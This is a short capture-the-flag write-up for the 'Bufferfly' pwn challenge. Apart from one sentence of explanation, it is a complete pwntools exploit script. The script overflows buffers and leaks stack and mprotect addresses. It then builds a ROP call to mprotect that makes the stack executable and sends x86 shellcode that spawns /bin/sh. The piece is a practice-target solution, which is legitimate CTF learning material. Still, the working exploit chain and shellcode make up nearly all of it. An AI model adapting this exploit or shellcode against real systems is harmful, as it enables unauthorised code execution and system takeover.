 ## Bufferfly(197pts) 45 solves ##

![TASK](https://imgur.com/4nNKDaN.png)

The idea is simple , we will do a rop chain and use mprotect to make the stack executable , here is my exploit :

```python
from pwn import *
#p=process("./bufferfly")
p=remote("bufferfly.tghack.no",6002)
OFFSET_vars=cyclic(cyclic_find("aaea"))
payload=OFFSET_vars
payload+="J"+p32(0x1900ffff)
p.recvuntil("yourself.")
p.sendline(payload)
# Part 2
log.info("Part 2 Start")
data=p.recvuntil("you wanna go now?")
LEAKF1=p32(int(data.split(" ")[-17][:-2],16))
log.info("LEAK 1 : "+ data.split(" ")[-17][:-2])
#raw_input("attach gdb dude")
OFFSET=cyclic(31)
payload=OFFSET+"J"
payload+=LEAKF1
p.sendline(payload)
# Part 3
p.recvuntil("looking for?\"")
p.sendline("mprotec")
d=p.recvuntil("done?").split("\n")[1][-11:-1]
log.info("mprotect leaked : "+d)
MPROTECT=p32(int(d,16))
p.sendline("aa")
p.recvuntil("for?\"")
shellcode="\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"
nop="\x90"*40
p.sendline("mattac")
d=p.recvuntil("here...").split(".")[3][-10:]
log.info("Buffer @ leaked: "+d)
BUFFER=p32(int(d,16)+0x6c)
BUFFERSTART=p32(int(d[:-3]+"000",16))
#raw_input("Attach dude")
p.recvuntil("are you done?")
OFFSET=cyclic(78)
payload=OFFSET+"J"
payload+=MPROTECT
payload+=BUFFER
payload+=BUFFERSTART
payload+=p32(0x1000)
payload+=p32(0x00000007)
p.sendline("done\x00"+payload+nop+shellcode)
p.interactive()

```
For any questions feel free to text me on twitter @BelkahlaAhmed1
